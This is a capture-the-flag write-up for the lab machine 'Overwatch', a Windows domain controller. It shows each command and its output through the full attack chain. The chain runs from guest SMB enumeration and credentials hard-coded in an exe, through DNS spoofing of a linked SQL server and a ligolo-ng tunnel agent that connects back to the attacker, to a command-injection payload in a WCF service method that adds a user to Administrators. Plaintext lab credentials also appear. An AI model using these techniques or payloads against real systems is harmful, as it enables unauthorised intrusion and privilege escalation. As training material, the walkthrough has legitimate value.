






# Overwatch
## Host file setup

```python
sudo nxc smb 10.129.244.81 --generate-hosts-file /etc/hosts
[sudo] password for kali: 
SMB         10.129.244.81   445    S200401          [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT s200401.overwatch.htb                 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-10 15:51 +0100
Nmap scan report for s200401.overwatch.htb (10.129.244.81)
Host is up (0.013s latency).
rDNS record for 10.129.244.81: S200401.overwatch.htb
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
6520/tcp  open  unknown
9389/tcp  open  adws
49664/tcp open  unknown
49669/tcp open  unknown
59048/tcp open  unknown
59049/tcp open  unknown
59056/tcp open  unknown
59143/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.26 seconds
```

### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,6520,9389 -A --min-rate=2000 -sT s200401.overwatch.htb                                                                  
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-10 15:53 +0100
Nmap scan report for s200401.overwatch.htb (10.129.244.81)
Host is up (0.013s latency).
rDNS record for 10.129.244.81: S200401.overwatch.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  tcpwrapped
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-10 14:53:51Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: overwatch.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: overwatch.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: OVERWATCH
|   NetBIOS_Domain_Name: OVERWATCH
|   NetBIOS_Computer_Name: S200401
|   DNS_Domain_Name: overwatch.htb
|   DNS_Computer_Name: S200401.overwatch.htb
|   DNS_Tree_Name: overwatch.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2026-08-10T14:54:29+00:00
| ssl-cert: Subject: commonName=S200401.overwatch.htb
| Not valid before: 2026-05-12T14:36:16
|_Not valid after:  2026-11-11T14:36:16
|_ssl-date: 2026-08-10T14:55:09+00:00; -1s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6520/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-08-10T14:47:15
|_Not valid after:  2056-08-10T14:47:15
| ms-sql-info: 
|   10.129.244.81:6520: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 6520
| ms-sql-ntlm-info: 
|   10.129.244.81:6520: 
|     Target_Name: OVERWATCH
|     NetBIOS_Domain_Name: OVERWATCH
|     NetBIOS_Computer_Name: S200401
|     DNS_Domain_Name: overwatch.htb
|     DNS_Computer_Name: S200401.overwatch.htb
|     DNS_Tree_Name: overwatch.htb
|_    Product_Version: 10.0.20348
|_ssl-date: 2026-08-10T14:55:09+00:00; -1s from scanner time.
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|10|11|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: S200401; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)

Null auth is enabled as with all domain controllers but not able to use it to access shares or list users

### Guest access
```python
nxc smb s200401.overwatch.htb -u 'Guest' -p ''             
SMB         10.129.244.81   445    S200401          [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.81   445    S200401          [+] overwatch.htb\Guest:
```

The guest account is enabled!

#### Shares
```python
nxc smb s200401.overwatch.htb -u 'Guest' -p '' --shares
SMB         10.129.244.81   445    S200401          [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.81   445    S200401          [+] overwatch.htb\Guest: 
SMB         10.129.244.81   445    S200401          [*] Enumerated shares
SMB         10.129.244.81   445    S200401          Share           Permissions     Remark
SMB         10.129.244.81   445    S200401          -----           -----------     ------
SMB         10.129.244.81   445    S200401          ADMIN$                          Remote Admin
SMB         10.129.244.81   445    S200401          C$                              Default share
SMB         10.129.244.81   445    S200401          IPC$            READ            Remote IPC
SMB         10.129.244.81   445    S200401          NETLOGON                        Logon server share 
SMB         10.129.244.81   445    S200401          software$       READ            
SMB         10.129.244.81   445    S200401          SYSVOL                          Logon server share
```

#### Users
```python
nxc smb s200401.overwatch.htb -u 'Guest' -p '' --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
S200401$
sqlsvc
sqlmgmt
SQL03$
NB001$
NB002$
FILE01$
S200400$
Charlie.Moss
Tracy.Burns
Kathryn.Bryan
Rachael.Thomas
Aimee.Smith
Duncan.Freeman
John.Begum
Bernard.Hilton
Kim.Hargreaves
Douglas.Burrows
Carole.Murray
Olivia.Quinn
Trevor.Baker
Kenneth.Dennis
Jeremy.Marshall
Jodie.Jones
Thomas.Lee
Terence.Matthews
Colin.Roberts
Aaron.Robinson
Amanda.Jenkins
Debra.Arnold
Michelle.Willis
Kayleigh.Jones
Adam.Russell
Tracey.Kelly
Bethan.Dale
Mandy.Wood
Jenna.Phillips
Carole.Yates
Graham.Perry
Catherine.Griffiths
Shaun.Jackson
Bethan.Rogers
Ellie.Singh
Marie.Allan
Patrick.Holmes
Victor.Hopkins
Geraldine.Harper
George.Todd
Karl.Smith
Jacqueline.Norton
Frederick.Murray
Joe.Pearce
Paul.Collins
Damien.Edwards
Eileen.Phillips
Carl.Johnson
Kevin.Newton
Natalie.Higgins
Francis.Weston
Benjamin.Davison
Martin.Kemp
Angela.Jones
Gareth.Ahmed
Deborah.Morgan
Grace.Taylor
Roger.Hughes
Albert.Barrett
Grace.Curtis
Marilyn.Griffiths
Tracey.Barker
Suzanne.Hughes
Timothy.Jackson
Beverley.Thompson
Clare.Bartlett
Irene.Johnson
Bernard.Wood
Frank.McCarthy
Elaine.Page
Elaine.Walker
Mohammad.Hill
Glenn.Field
Deborah.Martin
Gail.Sullivan
Maureen.Kirby
Georgina.Chambers
Philip.Harris
Samantha.Scott
Ann.Hill
Chloe.Cox
Jamie.Gough
Frederick.Hussain
Dean.Hobbs
Danielle.Moore
Timothy.Smith
Declan.Stone
Jacob.Wilson
Gary.Elliott
Peter.Slater
Louise.Walton
Brett.Haynes
Elliot.Green
Wendy.Williams
Graham.Parker
Abdul.Stevens
Brett.Bailey
Benjamin.Harrison
Emily.Cooper
Roger.Spencer
```

Ive used `--rid-brute` since it also pulls out machine accounts

## `software$` smb share

```python
smbclient //s200401.overwatch.htb/software$ -U 'Guest'%''             
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DH        0  Sat May 17 02:27:07 2025
  ..                                DHS        0  Thu Jan  1 06:46:47 2026
  Monitoring                         DH        0  Sat May 17 02:32:43 2025

		7147007 blocks of size 4096. 1112608 blocks available
smb: \> cd Monitoring\
smb: \Monitoring\> ls
  .                                  DH        0  Sat May 17 02:32:43 2025
  ..                                 DH        0  Sat May 17 02:27:07 2025
  EntityFramework.dll                AH  4991352  Thu Apr 16 21:38:42 2020
  EntityFramework.SqlServer.dll      AH   591752  Thu Apr 16 21:38:56 2020
  EntityFramework.SqlServer.xml      AH   163193  Thu Apr 16 21:38:56 2020
  EntityFramework.xml                AH  3738289  Thu Apr 16 21:38:40 2020
  Microsoft.Management.Infrastructure.dll     AH    36864  Mon Jul 17 15:46:10 2017
  overwatch.exe                      AH     9728  Sat May 17 02:19:24 2025
  overwatch.exe.config               AH     2163  Sat May 17 02:02:30 2025
  overwatch.pdb                      AH    30208  Sat May 17 02:19:24 2025
  System.Data.SQLite.dll             AH   450232  Sun Sep 29 21:41:18 2024
  System.Data.SQLite.EF6.dll         AH   206520  Sun Sep 29 21:40:06 2024
  System.Data.SQLite.Linq.dll        AH   206520  Sun Sep 29 21:40:42 2024
  System.Data.SQLite.xml             AH  1245480  Sat Sep 28 19:48:00 2024
  System.Management.Automation.dll     AH   360448  Mon Jul 17 15:46:10 2017
  System.Management.Automation.xml     AH  7145771  Mon Jul 17 15:46:10 2017
  x64                                DH        0  Sat May 17 02:32:33 2025
  x86                                DH        0  Sat May 17 02:32:33 2025

		7147007 blocks of size 4096. 1118837 blocks available
smb: \Monitoring\>
```

Found some dlls and exe files, ill download all of this and take a look



Ive loaded the `overwatch.exe` file into ILspy and found credentials in the application

```python
("Server=localhost;Database=SecurityLogs;User Id=sqlsvc;Password=TI0LKcfHzZw1Vv;");
```

## Compromising `sqlsvc`

```python
nxc smb s200401.overwatch.htb -u sqlsvc -p 'TI0LKcfHzZw1Vv' --shares
SMB         10.129.244.81   445    S200401          [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.81   445    S200401          [+] overwatch.htb\sqlsvc:TI0LKcfHzZw1Vv 
SMB         10.129.244.81   445    S200401          [*] Enumerated shares
SMB         10.129.244.81   445    S200401          Share           Permissions     Remark
SMB         10.129.244.81   445    S200401          -----           -----------     ------
SMB         10.129.244.81   445    S200401          ADMIN$                          Remote Admin
SMB         10.129.244.81   445    S200401          C$                              Default share
SMB         10.129.244.81   445    S200401          IPC$            READ            Remote IPC
SMB         10.129.244.81   445    S200401          NETLOGON        READ            Logon server share 
SMB         10.129.244.81   445    S200401          software$       READ            
SMB         10.129.244.81   445    S200401          SYSVOL          READ            Logon server share
```

This user has more access on the shares!

This user does not have access over WINRM or RDP

No kerberoastable accounts

No password reuse

No GPP passwords

No passwords in account descriptions!

There is no lockout policy so password spraying is not an issue

## Access on mssql as `sqlsvc`

```python
impacket-mssqlclient overwatch.htb/sqlsvc:'TI0LKcfHzZw1Vv'@s200401 -p 6520 -windows-auth
Impacket v0.14.0.dev0+20260805.100140.701354e9 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(S200401\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (OVERWATCH\sqlsvc  guest@master)> 
```

I now have access to the mssql instance

```python
SQL (OVERWATCH\sqlsvc  guest@master)> enum_db
name        is_trustworthy_on   
---------   -----------------   
master                      0   
tempdb                      0   
model                       0   
msdb                        1   
overwatch                   0   
SQL (OVERWATCH\sqlsvc  guest@master)>
```

Non default db called `overwatch`

```python
SQL (OVERWATCH\sqlsvc  guest@master)> enum_owner
Database    Owner              
---------   ----------------   
master      sa                 
tempdb      sa                 
model       sa                 
msdb        sa                 
overwatch   OVERWATCH\sqlsvc   
SQL (OVERWATCH\sqlsvc  guest@master)>
```

Looks like the current user is the owner of this db 

There is nothing in any of these databases

## Compromising `sqlmgmt`

```python
SQL (OVERWATCH\sqlsvc  guest@master)> enum_links
SRV_NAME             SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE       SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
------------------   ----------------   -----------   ------------------   ------------------   ------------   -------   
S200401\SQLEXPRESS   SQLNCLI            SQL Server    S200401\SQLEXPRESS   NULL                 NULL           NULL      
SQL07                SQLNCLI            SQL Server    SQL07                NULL                 NULL           NULL      
Linked Server   Local Login   Is Self Mapping   Remote Login   
-------------   -----------   ---------------   ------------   
SQL (OVERWATCH\sqlsvc  guest@master)>
```

However, there is a linked server `SQL07`

I cannot connect to it or execute commands on it

```python
nslookup SQL07.overwatch.htb S200401.overwatch.htb
Server:		S200401.overwatch.htb
Address:	10.129.244.81#53

** server can't find SQL07.overwatch.htb: NXDOMAIN
```

As seen here, it doesnt look to hold any records, maybe i can add one with my IP address

```python
bloodyAD --host s200401.overwatch.htb -d overwatch.htb -u sqlsvc -p 'TI0LKcfHzZw1Vv' add dnsRecord SQL07 10.10.14.61
[+] SQL07 has been successfully added
```

So first ill add the DNS record with my IP in for the server

```python
sudo responder -I tun0
```

Then ill start up responder

```python
SQL (OVERWATCH\sqlsvc  guest@master)> use_link SQL07
```

Then ill trigger it



```python
sqlmgmt:bIhBbzMMnB82yx
```

I now have some credentials!

```python
nxc smb s200401.overwatch.htb -u sqlmgmt -p 'bIhBbzMMnB82yx'                                                                                                  
SMB         10.129.244.81   445    S200401          [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.81   445    S200401          [+] overwatch.htb\sqlmgmt:bIhBbzMMnB82yx
```

This user is now compromised!



This user is apart of the remote managment users group which means i can get access over WINRM

## Evil-Winrm access as `sqlmgmt`

```python
evil-winrm -i s200401.overwatch.htb -u sqlmgmt -p 'bIhBbzMMnB82yx'     
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents>
```

I now have access

## Domain Admin

```python
*Evil-WinRM* PS C:\> netstat -ano | findstr "LISTENING"
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       392
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:6520           0.0.0.0:0              LISTENING       3120
  TCP    0.0.0.0:8000           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2988
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       548
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1200
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1672
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       2080
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:55826          0.0.0.0:0              LISTENING       1392
  TCP    0.0.0.0:56084          0.0.0.0:0              LISTENING       3120
  TCP    0.0.0.0:59048          0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:59049          0.0.0.0:0              LISTENING       2916
  TCP    0.0.0.0:59052          0.0.0.0:0              LISTENING       668
  TCP    0.0.0.0:59056          0.0.0.0:0              LISTENING       684
  TCP    0.0.0.0:59143          0.0.0.0:0              LISTENING       3020
  TCP    10.129.244.81:53       0.0.0.0:0              LISTENING       1392
  TCP    10.129.244.81:139      0.0.0.0:0              LISTENING       4

...[SNIP]...
```

Looks like there is an internal service running on port 8000, its also running as SYSTEM context as seen by the `4`

There doesnt looks to be anything in `inetpub` containing any html

### Internal web service

Ive downloaded the latest linux proxy and windows agent from the ligolo-ng github

```python
sudo ./proxy -selfcert
```

Ill start up the proxy on my attacker machine

```python
ligolo-ng » ifcreate --name overwatch
INFO[0013] Creating a new overwatch interface...        
INFO[0013] Interface created!                           
ligolo-ng » route_add --name overwatch --route 240.0.0.1/32
INFO[0044] Route created.
```

Then ill add the routing info

```python
*Evil-WinRM* PS C:\Temp> upload agent.exe
                                        
Info: Uploading /home/kali/htb/overwatch/agent.exe to C:\Temp\agent.exe
                                        
Data: 9800360 bytes of 9800360 bytes copied
                                        
Info: Upload successful!
```

Then ill upload the agent to the target

```python
*Evil-WinRM* PS C:\Temp> .\agent.exe -connect 10.10.14.61:11601 --ignore-cert
agent.exe : time="2026-08-10T09:45:04-07:00" level=warning msg="warning, certificate validation disabled"
    + CategoryInfo          : NotSpecified: (time="2026-08-1...ation disabled":String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
time="2026-08-10T09:45:04-07:00" level=info msg="Connection established" addr="10.10.14.61:11601"
```

Then ill execute the agent to connect back to me

```python
ligolo-ng » INFO[0126] Agent joined.                                 id=a2dead425dd3 name="OVERWATCH\\sqlmgmt@S200401" remote="10.129.244.81:55864"
ligolo-ng » 
ligolo-ng » session
? Specify a session : 1 - OVERWATCH\sqlmgmt@S200401 - 10.129.244.81:55864 - a2dead425dd3
[Agent : OVERWATCH\sqlmgmt@S200401] » tunnel_start --tun overwatch
INFO[0250] Starting tunnel to OVERWATCH\sqlmgmt@S200401 (a2dead425dd3) 
[Agent : OVERWATCH\sqlmgmt@S200401] »
```

Then a second later i get the connection, then i can select the session then start the tunnel

I believe this is a web service that is actually running the exe i found earlier in the `software$` SMB share

I think this becuase there is an exectable installed on the system called nssm

```python
*Evil-WinRM* PS C:\Software\Monitoring> dir -force ../../"Program Files"


    Directory: C:\Program Files


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         5/16/2025   4:06 PM                Common Files
d-----         5/16/2025   4:35 PM                Internet Explorer
d-----         5/16/2025   5:31 PM                Microsoft
d-----         5/16/2025   5:35 PM                Microsoft Analysis Services
d-----         5/16/2025   5:31 PM                Microsoft SQL Server
d-----         5/16/2025   5:31 PM                Microsoft Visual Studio 10.0
d-----         5/16/2025   5:31 PM                Microsoft.NET
d-----          5/8/2021   1:20 AM                ModifiableWindowsApps
d-----         5/16/2025   8:11 PM                nssm-2.24
d--h--         5/16/2025   4:06 PM                Uninstall Information
d-----         5/16/2025   4:06 PM                VMware
d-----          5/8/2021   2:34 AM                Windows Defender
d-----        12/31/2025  11:17 PM                Windows Defender Advanced Threat Protection
d-----         5/16/2025   4:35 PM                Windows Mail
d-----         5/16/2025   4:35 PM                Windows Media Player
d-----          5/8/2021   2:34 AM                Windows NT
d-----         5/16/2025   4:35 PM                Windows Photo Viewer
d--hs-          5/8/2021   1:34 AM                Windows Sidebar
d--h--         1/20/2026   6:27 AM                WindowsApps
d-----          5/8/2021   1:34 AM                WindowsPowerShell
-a-hs-          5/8/2021   1:18 AM            174 desktop.ini


*Evil-WinRM* PS C:\Software\Monitoring>
```

`nssm` has the purpose of making executable files into a full on service, so this makes me think that the service being ran is the `overwatch.exe` from earlier

Now taking a look at that exe from earlier once again



I might be able to do command injection using `KillProcess`

Similar to how it would work on a linux system, `&& whoami`, i should be able to embed an alternate command in there. And since this is running as system it will execute the command with system privileges



This is the endpoing ill be making the request to, only in my case ill be using `240.0.0.1` as the host since i forwarded the service externally

### Command execution

So for some reason this is not working over the tunnel i have on ligolo, so ill try this on localhost

```python
*Evil-WinRM* PS C:\Software\Monitoring> $client = New-WebServiceProxy -Uri http://localhost:8000/MonitorService?wsdl -Namespace "WcfProxy"
```

First ill make a variable and set the uri to the correct endpoint, this command basically allows me to communicate with the service 

```python
*Evil-WinRM* PS C:\Software\Monitoring> $client.KillProcess("x;whoami;#")
nt authority\system
```

Then simply calling the variable with the vulnerable function, i can get command execution

the `x` is a placeholder for the process name the semi colon simply allows me to run another command then using `#` i can comment out all other parts of the command



This is the part of the command, that i am abusing, im placing `x` as the processName then using `;` to execute another command like `whoami` then using hashtag to commend out the remainder `-Force`

```python
*Evil-WinRM* PS C:\Software\Monitoring> $client.KillProcess("x;net localgroup Administrators sqlmgmt /add;#")
The command completed successfully.
```

So ill add the current user to the administrators group

Then when i close the session and re open it:

```python
evil-winrm -i s200401.overwatch.htb -u sqlmgmt -p 'bIhBbzMMnB82yx'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents>
```

Domain Admin!
